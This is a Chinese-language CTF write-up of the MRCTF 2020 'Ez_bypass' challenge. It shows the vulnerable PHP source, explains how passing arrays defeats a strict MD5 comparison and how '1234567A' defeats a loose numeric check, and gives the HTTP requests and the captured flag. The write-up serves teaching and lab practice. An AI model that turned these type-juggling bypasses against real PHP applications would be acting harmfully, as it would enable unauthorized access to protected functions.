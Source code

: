 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - Bypass
---
```


# \[MRCTF 2020\] Ez_bypass

## 前置工作

进入靶机网页，看到如下代码（已在观感上优化），发现这是一道非常简单的绕过题

```php
# I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd)) {
                 if($passwd==1234567) {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 } else {
                     echo "can you think twice??";
                 }
            } else {
                echo 'You can not get it !';
            }
        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');
}
```

## MD5 绕过

观察代码 `md5($id) === md5($gg) && $id !== $gg`，通常我可能会想到 `0e` 漏洞，但是这里的 `md5($id) === md5($gg)` 是一个**强比较**，`0e` 漏洞其实行不通，所以我可以通过将 `id` 和 `gg` 定义成数组传入进去以绕过 MD5 的检测，以下是请求代码的一部分

```http
GET /?id[]=1&gg[]=2 HTTP/1.1
```

随后你就可以看到（下方回显已在观感上优化）

```
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48

You got the first step
```

## `passwd` 绕过

这个非常简单，利用的就是字符串和数字的弱比较，既然他想要我的 `password` = `1234567` 并且不是数字，我只需要在传入的时候将 `password` 赋成 `1234567A` 即可，以下是最终的 Http 请求代码（别忘了 `passwd` 要 POST）

```http
POST /?id[]=1&gg[]=2 HTTP/1.1
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 15

passwd=1234567A
```

最后即可得到我们的 Flag，是 `flag{e87c75a7-0ed4-4747-bcee-56b8e230a64a}`